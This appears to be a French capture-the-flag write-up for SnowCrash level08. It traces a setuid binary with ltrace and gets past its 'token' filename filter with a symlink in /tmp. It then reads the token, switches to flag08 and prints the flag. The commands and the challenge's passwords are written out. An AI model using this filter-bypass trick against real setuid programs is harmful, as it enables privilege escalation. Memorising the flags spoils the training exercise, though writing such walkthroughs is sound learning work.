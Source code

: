 # LEVEL08

**ls -la** : `-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08`

ltrace ./level08 :

```
level08@SnowCrash:~$ ltrace ./level08 
__libc_start_main(0x8048554, 1, 0xbffff7f4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)               = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

ltrace ./level08 token :

```
level08@SnowCrash:~$ ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")               = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

On remarque que le programme vérifie que le fichier ne contient pas "token", il faut donc modifier le nom de celui-ci pour pouvoir le lire.

N'ayant pas les droits d'écritures dans le home, nous ne pouvons pas utiliser les commande `mv`, `cp`, `rename`.

Nous pouvons utiliser la commande `ln -s /home/user/level08/token /tmp/flag08`

Pour créer un lien symbolique, ce qui va nous permettre de créer un raccourci qu'on pourra nommer comme nous le souhaitons.

```
level08@SnowCrash:~$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```

```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
